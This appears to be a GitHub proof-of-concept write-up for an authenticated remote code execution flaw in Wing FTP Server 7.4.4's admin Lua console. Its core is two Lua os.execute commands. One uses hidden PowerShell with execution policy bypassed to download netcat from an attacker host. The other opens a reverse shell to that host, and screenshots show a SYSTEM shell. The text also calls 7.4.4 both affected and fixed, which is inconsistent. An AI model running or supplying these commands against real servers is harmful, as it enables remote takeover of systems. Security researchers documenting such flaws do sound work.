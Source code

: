 # Wing FTP Server 7.4.4 - Remote Code Execution (Authenticated)
Wing FTP Server provides an administrative Lua scripting console accessible via its web interface. Authenticated administrators are able to execute arbitrary Lua code with insufficient sandboxing.

Affected Version: Wing FTP Server 7.4.4 (Windows) | Authentication Required: Yes

---

# Download & Release Notes
Until May 24, 2025, the latest version of the application provided by the vendor can be found at the following link: https://www.wftpserver.com/download.htm

Additionally, it can be noted that until the same date, there is a release note published informing that the RCE vulnerability has been fixed in version 7.4.4. The link to the release notes can be found here: https://www.wftpserver.com/serverhistory.htm
![image](https://github.com/user-attachments/assets/6c012118-50d8-4698-9378-8eef746c4708)

---

# PoC
![image](https://github.com/user-attachments/assets/f35ef4d9-fd4a-4a5f-ab50-d1b9bf5bb3b3)

Wing FTP Server Web Interface
![image](https://github.com/user-attachments/assets/36426432-9ba6-4f00-8599-2dd9dffc876b)

![image](https://github.com/user-attachments/assets/9b316062-448d-45f5-8988-c98bbf950ce0)

The first peace of the command will download the nc.exe (netcat for Windows x86) to the path "C:\Users\usuario\Desktop\Drops". The second part will execute nc.exe 192.168.234.131 4443 -e cme.exe.
```
os.execute('powershell -NoP -NonI -W Hidden -Exec Bypass -Command "(New-Object Net.WebClient).DownloadFile(\'http://192.168.234.131:8000/nc.exe\', \'C:\\\\Users\\\\usuario\\\\Desktop\\\\Drops\\\\nc.exe\')"')
```
```
os.execute('cmd /c powershell -NoP -W Hidden -Command "Start-Process \\"C:\\Users\\usuario\\Desktop\\Drops\\nc.exe\\" -ArgumentList \\"192.168.234.131\\",\\"4443\\",\\"-e\\",\\"cmd.exe\\""')
```
![image](https://github.com/user-attachments/assets/c6aaac7b-bdca-4d1a-baaf-cc4a14c56cc7)

NT/SYSTEM Shell
![image](https://github.com/user-attachments/assets/a8efd159-0153-4304-9438-7ae3b27ce258)
